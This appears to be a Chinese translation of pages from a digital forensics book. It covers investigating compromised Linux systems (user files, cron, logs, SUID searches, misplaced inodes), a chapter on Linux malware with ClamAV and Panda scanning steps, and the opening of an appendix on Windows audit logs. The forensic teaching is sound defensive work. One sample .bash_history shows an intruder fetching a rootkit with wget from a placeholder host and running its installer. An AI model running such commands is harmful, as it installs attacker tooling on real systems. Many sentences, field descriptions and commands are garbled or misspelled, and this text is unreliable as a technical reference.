此节定义了系统将启动到的默认运行级别。运行级别描述了系统的运行状态。在运行级别 1，一组服务将运行；在运行级别 2，运行另一组，依此类推。上面描述了七个运行级别，但通常默认是两者之一：3（带网络的文本模式多用户）或 5（带网络的图形模式多用户）。

```
# System initialization.
::sysinit:/etc/rc.d/rc.sysinit
10:0:wait:/etc/rc.d/rc 0
11:1:wait:/etc/rc.d/rc 1
12:2:wait:/etc/rc.d/rc 2
13:3:wait:/etc/rc.d/rc 3
```

> ¹ http://en.wikipedia.org/wiki/System_V
² http://en.wikipedia.org/wiki/BSD

```
14:4:wait:/etc/rc.d/rc 4
15:5:wait:/etc/rc.d/rc 5
16:6:wait:/etc/rc.d/rc 6
```

然后，根据我们的默认运行级别 5，init 会在运行 /etc/rc.d/rc 5 之前运行 /etc/rc.d/rc.sysinit。随后 /etc/rc.d/rc 将根据脚本遍历 /etc/rc.d/ 并杀死进程。（见图 7.1。）

# 图 7.1 rc5.d 的内容


> 注意，目录中的每个条目都是 /etc/init.d/ 中脚本的符号链接，根据符号链接的名字启动或停止。每个脚本都包含了大量的变量和用于优雅启动或停止服务的操作。

```
# Run getty in standard runlevels
1:2345:respawn:/sbin/getty tty1
2:2345:respawn:/sbin/getty tty2
3:2345:respawn:/sbin/getty tty3
4:2345:respawn:/sbin/getty tty4
5:2345:respawn:/sbin/getty tty5
6:2345:respawn:/sbin/getty tty6
# Run getty in standard runlevels
5:initdefault: 
```
最后，init 派生六个虚拟终端并启用图形显示。(img/fd8e85097b37559dbc07dc22fd8cb1fe_174_0.png)

如你所见，入侵者可以在许多地方设置对受损系统的访问权限。即使在精简的系统中，仔细审查所有配置文件也是强制性要求的；然而，我们将详细介绍一些更相关且重要的系统和安全文件的位置和功能。

# 用户、组与权限

对于嫌疑人，你可能想知道的首要信息是“谁有权访问这台机器？”/etc/passwd 会告诉你：
root:x:0:0:root:/bin/bash
bin:x:1:1:bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin/nologin
admin:x:3:4:admin:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/bin/sync
down:x:6:0:shutdown:/sbin/shutdown
halt:x:7:0:halt:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:/sbin/nologin
uuc:x:10:14:uuc:/var/spool/uuc:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/user/games:/sbin/nologin


## 第 7 章 + 文件分析

```
rpm:x:37:37:RPM user:/var/lib/rpm:/sbin/nologin
pulse:x:499:498:PulseAudio daemon:/sbin/nologin
polkit:x:87:87:PolicyKit:/sbin/nologin
avahi:x:495:495:avahi-daemon:/var/avahi-daemon:/sbin/nologin
hsqldbd:x:96:96:/var/lib/hsqldbd:/sbin/nologin
mailnull:x:47:47:/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51:/var/spool/mqueue:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
tp:x:38:38:/etc/ntp:/sbin/nologin
hd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
rpcucser:x:29:29:RPC Service:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS:/var/lib/nfs:/sbin/nologin
torrent:x:497:493:BitTorrentSeed/Tracker:/var/spool/bittrent:/sbin/nologin
haldem:x:68:68:HAL daemon:/sbin/nologin
gdm:x:42:42:/var/gdm:/sbin/nologin
user:x:500:500:/home/user:/bin/bash
```

passwd 文件中的字段如下：

- 1. 用户名（已由 /etc/shadow 代替）
- 2. 哈希处理后的密码字段
- 3. 用户 ID (UID)
- 4. 主组 ID (GID) – 注意用户可以属于任意数量的组。此信息存储在 /etc/group 中
- 5. GECOS 注释字段 – 通常用于全名或为守护进程账户提供具描述性的名称
- 6. 用户家目录
- 7. 初始登录时运行的 Shell/程序

如你所见，即使在单用户系统上，该字段也相当密集。一种在现实环境中常见的旧技巧是在某些无人的守护进程账户中间添加一个额外的 UID 0 用户，且没人会注意。请注意，任何 UID 为 0的用户在功能上等同于 root。/etc/group 的格式类似，但字段较少：

```
root:x:0:root
bin:x:1:root,bin,daemon
daemon:x:2:root,bin,daemon
sys:x:3:root,bin,adm
adm:x:root,adm,daemon
tty:x:5:
disk:x:6:root
lp:x:7:daemon,lp
mem:x:8:
kmem:x:9:
wheel:x:10:root
```

第一个字段是组名，第二个是组密码的哈希值（通常不使用密码保护的组），第三个是 GID，第四个是组成员的逗号分隔列表。root 或 wheel 组中额外的未经授权用户是可疑的，值得进一步调查。

最后，我们有 /etc/shadow，它存储了加密的用户密码和相关信息。

```
root:$xGSGAI2:$jWMNlOc2Hft1BDveRqw3i::13977:99999:7::
bin::!13826:0:99999:7::
gdm::!13826:0:99999:7::
user::$xS1EcULjr2PGm7ia6kIdrTV::13978:999:7
```

再次，字段如下：

- 用户名
- 加密密码
- 自 epoch（1970年1月1日）以来更改密码的天数
- 密码更改之间的最小天数
- 密码有效期
- 距离过期前的警告天数
- 绝对过期日期
- 留作后用

你可能注意到“bin”和“gdm”守护进程账户没有加密密码。由于它们不是交互式的，空字段阻止了它们的登录。任何具有加密字段的用户账户都应该被调查（fd8e5097b3755dbc0dc22fd8cb1fe_181.png 文件分析

正如你所熟悉的，root 用户在标准 Linux 系统中拥有所有权限，获取该用户的访问对于调查至关重要。出于其他原因，对 root 的访问被严格控制。某些用户可能需要超出普通用户权限的任务。有几种方法可以管理这一点，我们稍后将讨论 setuid 二进制文件或 su 命令。su 命令要求用户在当前会话中以 root 身份登录。没有什么可以阻止用户未来直接以 root 身份登录。在共享环境中，root 应该刻意执行某些操作。这个问题通过 sudo 解决，它允许为非 root 用户授予 root 权限。对 sudoers 文件的完整分析是必要的。通过 /etc/security 文件检查是否存在异常或未经授权的条目。

### Cron 任务

"cron" 是 Linux 系统中在未来某个时间调度任务的主要方法。如你所见，这是确保对系统进行持续访问的好方法。cron 有两个主要位置：/var/spool/cron，它包含使用 "crontab" 命令进入的用户 ID；以及 /etc/crontab，它列出了系统级任务。这些任务位于 /etc/cron.hourly、/etc/cron.daily、/etc/cron.weekly 以及 /etc/crontab 中提到的其他目录。这是维护受攻击 UNIX 系统访问的一种旧但有效的方法。

### 日志文件

Linux 系统包含大量的日志文件，对调查可能很重要。在本节中，我涵盖涵盖每次调查中出现的关键问题的日志。

### Who

帮助确定参与事件的关键日志是“last”日志、utmp 和 wtmp。utmp 和 wtmp 是关联的。utmp 是一个记录当前登录系统的数据库。这些数据被转入 wtmp，记录登录的历史数据。通常在活动系统中通过“who”和“last”命令访问这些数据，但在事后分析期间，who 和 last 命令也用于读取 /var/run/utmp 和 /var/log/wtmp：

```
# tail -f /mnt/images/forensics/root/var/log/wtmp
user pts/2 :0:0 Apr 13 22:12 - 17:55 (19:43)
user pts/0 :0:0 Apr 13 16:54 - 17:55 (1+01:01)
reboot system 2.6.23.1-42.fc8 Sun Apr 13 16:50 (1+08:01)
user pts/1 :0:0 Apr 13 16:20 - 16:49 (00:29)
tty7 :0:0 Sun Apr 13 16:19 - 16:49 (00:30)
reboot system 2.6.23.1-42.fc8 Sun Apr 13 16:14 (00:35)
user pts/4 :0:0 Wed Apr 9 19:17 - 16:11 (3+20:53)
user pts/3 :0:0 Wed Apr 9 19:13 - 16:11 (3+20:57)
user pts/2 :0:0 Wed Apr 9 18:37 - 16:12 (3+21:34)
user pts/1 :0:0 Wed Apr 9 16:30 - 16:12 (3+24:42)
tty7 :0:0 Wed Apr 9 16:28 - 16:12 (3+23:44)
reboot system 2.6.23.1-42.fc8 Wed Apr 9 16:20 (3+53:52)
reboot system 2.6.23.1-42.fc8 Fri Nov 9 13:20 (00:01)
```

### 哪里和什么

入侵者去了哪里以及他们做了什么，这些问题通常需要比日志（例如取证）更多的回答。所以，如果用户的 .bash_history 包含以下内容：

```
w
cd /tmp
wget www.xxx.xxx.xxx/rootkit.tar.gz
tar xvzf rootkit.tar.gz
rm -rf rootkit.tar.gz
cd rootkit
./install
```

你就有很明显的迹象表明存在异常。从日志角度来看，关于系统上发生了什么的另一个主要信息来源是各种 syslog 日志。取决于你正在检查的系统环境，它完全可能记录到远程 syslog 服务器。检查 /etc/syslog.conf 查看哪些日志设施被定向到文件或主机；远程日志会在主机名前有一个 @ 符号。这里有一个总结性的示例：

```
*.info;none;authpriv.none;cron.none /var/log/messages
authpriv.* /var/log/secure
mail.* @mail.server.localdomain
cron.* /var/log/cron
```


在这种情况下，如果你的调查依赖于邮件日志，你将从 mail.server.localdomain 获取它们。它们不会出现在本地机器上。

### 感兴趣的其他文件

现在我们已经确定了大多数调查中可能需要的关键文件，我们将提供一些技术来寻找那些其他文件，即构成你分析材料的大部分文件。这些文件每次可能都不同，因此遗憾我们无法提供一个列表并让你每次都获取以下内容。

### SUID 和 SGID Root 文件

在章节的前面，我们注意到确定谁拥有 root 账户访问权限或 root 级权限的重要性。另一种执行命令的方法是


然而，还有比通常更高的权限：setUID 和 setGID 可执行文件。这些是设置了 SUID 或 GUID 位的可执行文件。执行时，它们不会以启动程序的用户的权限运行，而是以文件所有者用户或组的权限运行。通常，SUID/SGID root 的可执行文件最令人担忧，但取决于你所工作的环境，其他用户或组也可能引起关注。SUID/SGID 可执行文件中的安全漏洞或配置错误可能导致本地系统的权限提升。定位这些文件非常重要。

当你需要根据非常特定的标准快速查找时，`find` 命令是你的好朋友。

```
find / -perm -4000 -type f -xdev -print > suid.txt
find / -perm -2000 -type f -xdev -print > sgid.txt
```

这些命令将从系统根目录 (/) 开始，查找所有权限 (-perm) 为 4000 或 2000（分别为 setUID 和 setGID）的普通文件 (-type f)，并将它们的完整路径打印到标准输出，标准输出被重定向到这些文件中。我们指定普通文件是为了排除块设备、字符设备、套接和其他类似项目。`-xdev` 标志确保 find 不进入你可能搜索的目录，例如 NFS/SMB 挂载的文件、挂载的 CD/DVD 以及你可能挂载的任何外部存储。遗憾的是，这将防止进入你可能想要搜索的目录，例如一个将 /var 或 /tmp 放在根目录独立分区的系统。在这种情况下，你可能想用 -xdev 替换 "-type f"。有关更多选项，请查看文件的 man 页。

## 最近修改/访问/创建的文件

如果你怀疑入侵可能发生于某个时间段，你可以轻松地查找在该日期之前或之后修改、访问或创建的所有文件。例如，如果系统管理员注意到五天前开始出现未经授权的 IRC 连接，你可以执行以下操作：

```
find / -mtime 5 -xdev > modified.txt
find / -atime 5 -xdev > accessed.txt
find / -ctime 5 -xdev > created.txt
```

虽然在 Linux 系统上使用（“touch”命令）修改文件时间戳轻而易举，但这也是攻击者有时会花精力的一个地方。这些文件的输出可能有些杂乱，但它们应该提供一个起点。

## 修改过的系统文件

识别自你的包管理器安装以来被修改过的系统文件并不困难。对于基于 RPM 的系统：
...

```
rpm -V -a
```

对于 .deb 系统，你可以使用 debs：

```
debs -ca
```

这里需要注意几点。第一，特定文件被修改这一事实并不一定意味着被入侵了，特别是如果它是一个配置文件，因为这些文件很可能会被修改。第二，没有修改并不意味着系统应该被认为完全健康。在一个运行中的、已受入侵的系统上，攻击者可能修改了你正在运行的命令、它正在读取的数据库或内核本身。这些命令提供了数据，你需要将这些数据组合起来以凑出全貌。

## 离位 inode

这是一种有些晦涩的技巧，但在某些场景下可以有效使用。据（我所知）首次在《Forensic Discovery》中描述，作者指出 inode 通常是分段分配的，离位的 inode 可能用于找到被替换的二进制文件并将其追溯到其创建位置。你可以使用 -i 标志查找文件的节点号：

```
[root@localhost /bin]# ls -fi
127803 -rwxr-xr-x 1 root root 2007-08-28 43
127802 -rwxr-xr-x 1 root root 2007-10-04 45
127976 -rwxr-xr-x 1 root root 2007-10-30 52
128058 -rwxr-xr-x 1 root root 50306 2007-10-30 52
164019 -rwxr-xr-x 1 root root 99564 2007-10-30 52
127988 -rwxr-xr-x 1 root root 19200 2007-10-30 52
128034 -rwxr-xr-x 1 root root 19804 2007-10-29 41
128027 -rwxr-xr-x 1 root root 52044 2007-10-05 15
128030 -rwxr-xr-x 1 root root 84780 2007-10-17 30
```

## 文件分析

我们可以清楚地看到，ls 的二进制编号与 /bin 目录下的其他项目不一致。那么，它是从哪里入侵的？

```
find -xdev -print | xargs ls -id | sort -n
164017 /tmp/toolkit.tgz
164018 /tmp/.toolkit/eraser.tar
164019 /tmp/.toolkit/ls
164020 /tmp/.toolkit/.chroot
```

此时我们可以非常确定，“ls”并不是作为系统更新的一部分被修改的。

## 隐藏文件和藏身之处

如你所知，上述技术将帮助你找到从原始位置移动或最近被修改的文件，这应该有助于你发现特定攻击者在特定事件中使用的藏身之处，而一个长受青睐的地方是 /dev 设备。（见图 7.2。）

### 图 7.2 /dev 的内容

你能认出哪个不属于这里的目录吗？

我们可以使用已经学过的技术快速地查出这里任何反常的东西。

```
find . -type f -exec ls -i {} \; | sort -n
547 /.dev/uevent_seq
6691 /.dev/names/shm/vcs/class/vcs
8190 ./sh/pulse-shm-1883913868
1026735 /.tools/hack-the-planet
```

我非常确定我没有安装 hack-the-planet 设备，所以这个非常可疑。

## 第8 章

本章的解决方案：

- 病毒
- 地平线上的风暴
- 动手操作
- 使用 Panda 和 Clam 进行操作

## 引言

取证调查中一个技术性较低但非常有用的步骤是扫描获取的镜像中的恶意软件，特别是病毒、蠕虫和木马。虽然发现恶意软件可能不是取证调查的主要原因，但我经常发现涉及事件的系统被感染了。无论如何，这可能是完全巧合，也可能是定向攻击的结果。进行全面的恶意软件扫描可以产生线索，可能提供关于事件的特定答案。

我使用了开源和商业工具的组合，包括：

- Gargoyle Investigator Pro
- F-Prot
- ClamAV Antivirus
- Panda Antivirus
- Symantec Antivirus
- McAfee Antivirus
- AVG Antivirus
- Kaspersky Antivirus
- Trend Micro Antivirus

虽然这不是唯一的方法，但这是一个很好的开始。


## 186 第 8 章 • 恶意软件

简而言之，要让恶意程序安装在 Linux 系统上，通常需要好几个变量同时满足才能发生感染。例如，一台机器可能会因为可执行文件（如媒体播放器）的缓冲区溢出而被感染。我可以给 Todd 发送一个链接，内容类似于“快看我的超甜色片……”。只要他足够愚蠢，在没有对情况进行任何研究的情况下点击了我的链接，该链接就可以指向一个恶意构造的文件，该文件利用了他电影播放器中未处理的缓冲区溢出漏洞。到目前为止，我们需要 Todd 运行一个有漏洞的电影播放器，而且我们需要确切知道他正在播放什么，或者运气好他运行的正是坏人编写恶意电影文件的那个版本。与 Windows 不同，Linux 上并没有一个像 Windows Media Player 那样始终安装且可能在每个 Linux 系统上都能找到单一播放器。此外，即使 Todd 运行的是一个容易此缓冲区溢出漏洞影响的有漏洞电影播放器，但重要的是，尽管媒体播放器存在该漏洞，但如果它运行在开启了非执行栈的 Linux 上，攻击仍然会失败。然而，只要情况并非如此且发生了用户协助，攻击者就可以获得 Todd 启动浏览器浏览器时获得的用户 ID（推测是 Todd 的个人 ID）。与 Windows 不同，这个个人账户不太可能单独拥有 root/管理员权限，因此攻击者仍然没有对系统的完全控制权。在那个节点，只要系统没有针对任何已知的权限提升漏洞进行补丁修复，就可以执行代码来为攻击者提供 root 权限。

我意识到这有很多“万如果”，但这种可能性是存在的。就像我“可能”走出家门时被陨石砸中一样，这虽然不太可能，但确实可能。Linux 和所有 *nix 变体*（Unix 变体）一样，运行在一个模糊的安全领域中，更高级的用户对这个领域了如，而新手们正试图理解它。我知道这是一个很奇怪的陈述，让我解释一下我指的是什么。在 Linux 中，一切都被视为一个文件，无一例外，且文件具有读（数字赋值为 4）、写（数字赋值为 2）和执行（数字赋值为 1）权限。这些权限按应用的用户从左到右列出：root、所有组以及其他人。例如，一个名为“Foo”的文件看起来像这样：

```
Foo 744
```

这意味着名为“Foo”的文件对 root 用户具有读、写和执行权限，但对所有组和其他人只有读权限。


## 恶意软件 • 第 8 章

回到 Todd 点击恶意链接的例子，如果该链接另一端有邪恶内容，并能够感染他的 Linux 系统，那么恶意软件启动的任何进程都将与 Todd 的用户账户绑定，因此在系统上仅拥有他同级别的访问权限。除了我们对文件权限如何工作的了解外，让我再补充一点。关键的操作系统文件都由 root 用户所有，除非他们通过 `sudo` 设置了特殊权限，否则普通用户无法访问，这完全是另一回事了；因为 `sudo` 访问需要密码。虽然在系统中可以使用单个用户 ID，但如果没有 `sudo` 密码，管理命令仍然无法执行。因此，因为 Linux 通过这些权限保护自己，恶意软件将无法做用户不能做的事，也无法做 root 能做的事。虽然它可能能做一些烦人的事情，比如 ping 其他主机，或者可能通过安全 Shell (SSH) 或文件传输协议 (FTP) 与另一台机器连接，但它无法做任何对其他已打补丁且配置良好的系统造成损害的事情。

唯一的例外是，如果 Todd 真的很愚蠢，以 root 用户身份点击了恶意链接。那么，系统执行的任何恶意软件都将拥有权限。任何有头脑的 Linux 用户都不会以 root 身份浏览互联网，如果有人这么做了，并在之前中了病毒，那是他们自己的错。

作为 Linux 用户，要记住的关键点是不运行不可信的二进制执行文件。现在你可能在想，如果我下载了我认为可信的东西，但结果被植入了木马怎么办？

再次，虽然这种可能，但由于两个原因不太第一。第一根据我的经验，黑客和恶意软件编写者以某种形式使用 Linux。在这些人之间几乎有一种荣誉感：我们不攻击自己的系统。现在，请理解，对品牌的忠诚可能完全被潜在的收益所掩盖。如果攻击目标主要是一个 *nix 商店，而坏人想要这些系统中所包含的信息，那么他们运行什么操作系统就无所谓了。他们攻击 *nix 的速度和攻击 Windows 一样快，尽管可能稍微不情愿一点，速度几乎没那么。

第二个原因是开源社区对他们的代码极其警惕。例如，在1999年1月，Wietse Venema 的关键传输控制协议 (TCP) Wrappers 包被发现被植入了木马。然而，并没有关于爆发的报告，因为目标用户会检查上游源码发布版本的 Pretty Good Privacy (PGP) 签名。这个特定的


## 188 第 8 章 • 恶意软件

发布由于没有签名而显得格外显眼。事实上，Crossbar Security, Inc. 的 Andrew Brown 在几小时内就发现了这个问题。

最近最近，在2007年12月，SquirrelMail 1.4.11 和 1.4.12 的 tar 包被发现植入了远程执行后门。这次尝试由于一个警觉的用户注意到 tar 包的的消息摘要 5 (MD5) 校验和不匹配，在非常短的时间内就被击败了。就像1999 年对 TCP wrappers 的尝试一样，从未出现过实际被入侵的报告。这并不是说这种情况永远不会发生，但 Linux 人是一类不同的物种，安全无疑处于他们集体思维的前沿。

## 风暴在眉睫

……假设一下卡巴斯基是 100% 正确的，恶意软件编写者的部分关注点从 Windows 转向 Linux。他们仍然必须与 Linux 内置的安全机制作斗，特别是文件权限。只要用户不以 root 身份执行不可信的二进制执行文件，任何恶意软件，无论由谁编写或它是如何进入系统的，其权限都将限于感染账户的权限。这不可争议，这是技术的工作原理。此外，还有密切监控代码的开源开发者网络，以及一个极具安全意识的用户社区。所有这些因素共同为 Linux 建立了一层 Windows 用户无法比的保护屏障。

就像 Windows 用户一样，Linux 用户必须保持警惕，使用最新的厂商发布补丁来修复系统，并确保只有


# 恶意软件 • 第 8 章

他们打算运行的服务正在运行。无论操作系统如何，保护你的系统免受各种恶意软件的侵害是一个主动的过程，需要用户承担一定程度的责任。仅仅安装一个防病毒解决方案（无论该解决方案有多么优秀），并依靠它来确保你的系统免受“坏东西”的侵害，这简直是愚蠢的。没有任何工具可以取代手动键盘操作。

似乎作为一条一般规则，普通的 Linux 用户比普通的 Windows 用户对新出现的安全威胁和漏洞更具警觉。这很可能是因为世界上绝大多数计算机所有者都使用 Microsoft Windows。另一种说法，Linux 用户至少需要对 EXT2/3 架构的工作原理、如何通过命令行导航文件系统，以及如何在 Google 或论坛上搜寻自己的技术故障有基本的了解。在我看来，认为 Linux 用户通常更见多识广、技术更精通且更具有安全意识是一个安全的假设。

我说明这些是为了表达这一点：我认为卡巴斯基（Kaspersky）的假设可能是正确的。根据他的表现，我认为他赢得了相应的信誉。我仍然看到的、胆于闯入 Linux 世界的恶意软件编写者面临的问题是，这些用户已被证明具有比他们的 Windows 同胞更强的警觉性，而操作系统内置的技术防护阻止了未经授权的活动。这使得他们的工作更加困难，但并非不可能。正如我之前提到的，如果电缆另一端有“坏人”极其渴望的东西，他们会找到获取的方法，无论该信息存储在什么操作系统上。在我担任道德黑客和取证分析师期间，我学到了两个不可否认的事实。第一，没有什么是不可破解的。某些东西可能比其他的更难攻，但没有没有错误，因此没有什么是不值得破解的。第二，总有人比你聪明。你无法数出我有多少次在进行破解工作时声称某个系统是“安全的”，结果我的一个同事查看了同一个系统，并最终获取了 root 权限（root）。所以，仅仅因为你不知道如何做某事，或者没见过别人这样做过，并不意味着它不可行。零漏洞之所以被称为“零日攻击”（zero day）是有原因的。它是第一次发生（即：以前没有人做过）。

大多数 Linux 社区认为 Linux 系列操作系统免受恶意软件的侵害；然而，我们所知的事实是，虽然


事实如此，但 Linux 系统被恶意软件感染的频率远没有那么高。然而，这并不意味着随着 Linux 用户社区的扩大，它永远不会变得脆弱，或者某些恶意软件已经被写好了。我们能做的最好的事情就是继续关注与已知破解尝试匹配的模式，保持系统更新，并尽快向开发者报告我们发现的任何可疑之处。

# 使用 Panda 和 Clam 动手操作

为了方便起见，工具磁盘上包含了一个名为 `nvs.sh` 的脚本。一旦你的机器上安装了 Panda 和 Clam，它将逐个调用它们扫描目标文件系统，并在用户定义的目录中生成输出文件。要运行该脚本，请将其从工具磁盘复制到你选择的目录。你需要 root/管理员权限才能正确运行此脚本。要调用脚本，请运行以下命令 `./nvs.sh`。

# 下载 ClamAV

可以从以下链接下载最新版本的 ClamAV：http://www.clamav.net/download/sources “Latest stable release:”

- 1. 点击标记为“Latest stable release:”的链接。
- 2. 下载完 tar 包后，将其移动到 /tmp 以进行安装。

```
mv clamav-0.92.tar.gz /tmp
```

这是撰写本文时对应的最新版本。

# 安装 ClamAV

- 1. 一旦 tar 包移动到 /tmp，就可以进行解压和配置。
- 2. 切换用户为 root
- 3. 你将看到大量文件在屏幕上闪过。这是 tar 包正在解压的过程。
- 4. 现在你可以进入新创建的 clamav 目录。

```
su -
tar -xzvf clamav-0.92.tar.gz
```

```
cd clamav-0.92
```

- 5. 在能够编译源码之前，你需要获取 gcc dev 包和 zlib1g dev 包。这一步会要求你将 Ubuntu 安装光盘放入光驱驱动器。因此，你需要将 .iso 镜像刻录到 CD，或者将 .iso 映射为虚拟驱动器。无论哪种方式，在正确编译 gcc dev 包之前，这都是必须的。

```
apt-get install libc6-dev g++ gcc
apt-get install zlib1g-dev
(Ubuntu only)
```

- 6. 现在你需要创建用户和用户组 clamav

```
useradd -d /home/clamav clamav
```

- 7. 现在你可以运行安装命令

```
./configure
make
make install
```

# 使用 Freshclam 更新病毒数据库

1. 下一步是由让你更新 `freshclam.conf` 文件。Freshclam 是 ClamAV 的一个实用程序，用于更新病毒数据库文件：/usr/local/etc/freshclam/conf

2. 如果你以前从未使用过 vi，你应该尽快熟悉它。你在 *n 系统中执行的大部分工作都需要修改配置 (.conf) 文件。这需要对 vi 有基本的操作知识。你可以在 http://www.eec.com/business/vi.html 查看一个很好的备忘表。为了本次练习，我将假设你如何使用 vi 编辑器。

3. 注释以“Comment or remove the line below”开头的行，在单词前面添加一个 #。例如：

- 取消注释以“DatabaseDirectory”开头的行
- 取消注释以“UpdateLoffFile”开头的行
- 取消注释以“DatabaseMirror”开头的行，并将字母 XY 替换为 US。
- Esc（退出编辑模式）

- Shift:（告诉 vi 你已经完成了更改并准备好保存）

- wq!（告诉 vi 保存更改并绝对强制提交）

- 4. 现在既然你已经修改了 `freshclam.conf`，你需要将该文件的所有权更改为 clamav。

- touch /var/log/freshclam

- chown clamav /var/log/freshclam

- chmod 777 /var/log/freshclam

- 5. 现在你可以运行 freshclam 来更新你的本地数据库。

# 扫描目标目录

可以通过自定义的 *nix 病毒扫描脚本（包含在你的工具磁盘上的 `nvs.sh` 中）或从命令行手动完成。


- 1. 要运行该脚本，只需切换到 root 用户身份，并运行以下命令：
  ./nvs.sh

  脚本将提示你输入目标目录以及输出的存放目录。在指定的存放目录内，脚本将创建一个另一个名为“NVS”的目录。在该目录中，你将看到两个文件，“ClamAV”和“Panda”。这些文件是递归病毒扫描的输出文件。

- 2. 若要从命令行运行 Panda，只需使用以下命令：
  su
  cd /opt/pavcl/usr/bin
  ./pavcl target options

- 3. 如需了解有关可以使用哪些开关的详细信息，请输入：
  ./pavcl -help

- 4. 此外，你可以参考帮助手册（man）页以获取更多选项。
  cd /opt/pavcl/usr/man
  gunzip pavcl.1.gz
  more pavcl.1

- 5. 对于标准病毒扫描，请使用此命令：
  ./pavcl /target/directory -aex

## Web 引用 (Web References)

www.internetnews.com/dev-news/article.php/3601946
www.linux.com/articles/23334
http://linuxmafia.com/~rick/faq/index.php?page=virus
http://lwn.net/Articles/262688
http://ubuntuforums.org/archive/index.php/t-206975.html
http://news.softmedia.com/news/Mac-and-Linux-Viruses-Growth-to-Explode-Not-Windows-Vista-53096.shtml
www.pcpro.co.uk/news/111202/mac-and-linux-viruses-to-rise-significantly.html
www.pandasecurity.com/usa/
www.linux.com/articles/22899
www.openantivirus.org/
www.clamav.net/

## 附录 A (Appendix A)

### 在 Windows 和 *nix 上实施网络犯罪检测技术

#### 作者：Michael Cross

我们将在附录中调查的主题：

- 安全审计与日志文件
- 防火墙日志、报告、警报与警告
- 商业入侵检测系统
- IP 欺骗与其他反检测策略
- 蜜罐、蜜罐网络和其他“网络钓诱饵”
- 总结
- 常见问题解答

## 引言 (Introduction)

一旦发生攻击或系统、网络被攻破，能够筛选出发生事件的证据至关重要。从技术信息技术（IT）的角度来看，这意味着如何寻找、识别和定位网络犯罪的显性证据。从执法部门的角度来看，这意味着需要知道如何处理此类证据，以确保在必要时它们可以在法庭上被采纳。然而，这些角色在某种程度上是重的。优秀的调查员还需要了解在何处以及如何定位证据的性细节，以便正确编写犯罪报告，并帮助检察官为证人拟定提问。同样，IT 专业人员也需要理解如何处理证据，以在法律眼面前保持其完整性。

在本附录中，我们主要关注前者；我们介绍了调查人员收集的各种来源和潜在证据类型，调查人员收集这些证据是为了提供实施网络犯罪尝试的证据。在某些情况下，无论尝试的犯罪是否成功，都可能收集到这些证据；在其他情况下，此类证据可能仅作为成功攻击的副产品存在。

在某种程度上，计算机和其他网络设备能够记录发生在其内部或通过其的活动信息。当需要网络犯罪证据时，这类数据可以成为决定起诉责任人的关键要素。但由于系统和网络安全还有许多其他方面，有必要理解为了产生此类证据而必须投入运行的底层技术和软件。同样，理解这些证据是什么样子的也是必要的。


应用于身份验证和授权控制的系统和网络上实际发生了什么。

审计是大多数计算机操作系统和网络设备中内置的一种功能。但由于创建审计跟踪意味着要生成可能存储在活动记录中的文件，因此审计通常被视为一种酌情的跟踪和监控形式，而不是一种通适用于所有用户活动和资源访问的手段。在决定是否审计某些类型的活动或对特定资源的访问时，应遵循的通用原则是基于对涉及风险的仔细评估。换句话说，就是对潜在的有害或危险的活动，以及对敏感文件和其他资源的访问进行审计。但同样重要的是，要认识到，审计所有内容和什么都不审计一样不切实际。如果我们观察某些操作系统如何处理审计，以及它们能够跟踪和监控哪些类型的活动和访问，这些通用告诫就会更有意义。在后续讨论之后，我们可以对审计以及审计留下的痕迹（通常称为日志或日志文件）进行更具体、更精确的概括。

## Windows 平台的审计

从最早的 Windows NT 版本开始，所有的 Windows 操作系统安装（Windows 9x/Me 除外）都维护着三个审计日志来跟踪用户和系统活动。你可以通过内置的事件查看器（Event Viewer）工具查看这些日志：

- **应用程序日志 (Application log)**：显示来自 Windows 计算机应用程序和无关服务报告的消息、状态信息和事件。（注意，某些系统服务会写入此日志而不是系统日志）
- **系统日志 (System log)**：记录由 Windows 操作系统本身及其核心系统服务生成的错误、警告和信息事件。
- **安全日志 (Security log)**：显示受审计活动的成功和失败记录。当你从 Windows 中启用审计并设置特定的审计策略或设置时，此类项目就会出现在此日志中。

当然，最后一个日志对于我们的目的来说是最而易见重要的，尽管调查人员不应忽略另外两个。相关信息，例如服务的启动或停止或应用程序的异常行为，也可以从应用程序和系统日志中获取。


## 附录 A • 在 Windows 和 *nix 上实施网络犯罪检测技术

## 注意

如果运行了某些服务（如 Active Directory 和域名系统 [DNS] 服务器服务），事件查看器中可能会出现标准的应用程序、系统和安全日志之外的其他日志。

启动事件查看器的方法因平台而异，但你通常可以在管理工具菜单下找到（如 Windows NT 和 2000 中），或者通过 Windows 2000、XP、Vista、Windows Server 2003 和 Windows Server 2008 中的微软管理控制台 (MMC) 使用。事件查看器是调查异常或特殊系统活动以及通常监控系统活动的起点。

在 Windows 中，组策略对象（GPO）控制操作系统执行的审计级别。登录具有管理员级权限账户的用户可以启用审计或建立审计策略。通过启用审计，你只需创建一个 GPO 并配置其监控一类或多类已定义事件的成功和失败。如图 A.1 所示，通过使用本地安全策略，你可以编辑计算机的审计策略。观察此图时，你会发现默认情况下审计策略是禁用的，这意味着如果你最初在事件查看器中查看安全日志，它将是空的。要启用该策略，你需要双击你想要审计的事件，并选择要审计该事件的成功还是失败。

## 图 A.1 Windows XP 计算机上的审计策略



在 Windows Vista 和 Windows Server 2008 之前，可以审计的九类事件或活动：

- **账户登录事件**：使用此项监控用户登录活动。
- **账户管理**：使用此项监控管理员账户管理活动（创建、删除、禁用或更改帐户设置）。
- **目录服务访问**：使用此项监控 Active Directory 服务和对象的使用。
